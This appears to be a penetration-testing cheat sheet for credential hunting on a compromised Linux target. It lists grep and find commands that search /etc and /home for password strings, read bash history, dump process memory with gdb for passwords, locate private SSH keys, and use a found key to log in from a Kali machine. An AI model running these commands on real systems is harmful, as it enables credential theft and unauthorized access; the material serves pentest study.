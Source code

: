 #### Grep & Find
```bash - target
grep --color=auto -rnw '/etc' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/etc' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /etc

```bash - target
grep --color=auto -rnw '/home' -ie "PASSWORD" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "DBPASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PASS" --color=always 2> /dev/null
```

```bash - target
grep --color=auto -rnw '/home' -ie "PWD" --color=always 2> /dev/null
```
- [ ] /home

Using Find:
```bash - target
find /etc -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /etc -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /etc

```bash - target
find /home -type f -exec grep -i -I "PASSWORD" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "DBPASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PASS" {} 2> /dev/null \;
```

```bash - target
find /home -type f -exec grep -i -I "PWD" {} 2> /dev/null \;
```
- [ ] /home

Locate in file names:
```bash - target
locate password | more
```

grep in bash history:
```bash - target
cat /home/user/.bash_history | grep -i "password"
```

#### Extracting passwords from memory (Privilege Escalation Techniques)
```bash - target
ps -ef
```

```bash - target
ps -ef | grep $SERVICE_NAME
```

```bash - target
gdb -p $PID
```

```bash - target
info proc mappings
```

```bash - target
dump memory $OUTPUT_FILE $START_ADDRESS $STOP_ADDRESS
```

```bash - target
strings /<OUTPUT_FILE> | grep passw
```

#### SSH Key Hunting
```bash - target
find / -iname authorized_keys 2> /dev/null
```

```bash - target
find / -iname id_rsa 2> /dev/null
```

>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjE...4WBrYWxpAQI=
-----END OPENSSH PRIVATE KEY-----

Save found key into KALI file

```bash - kali
mousepad id_rsa
```

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```


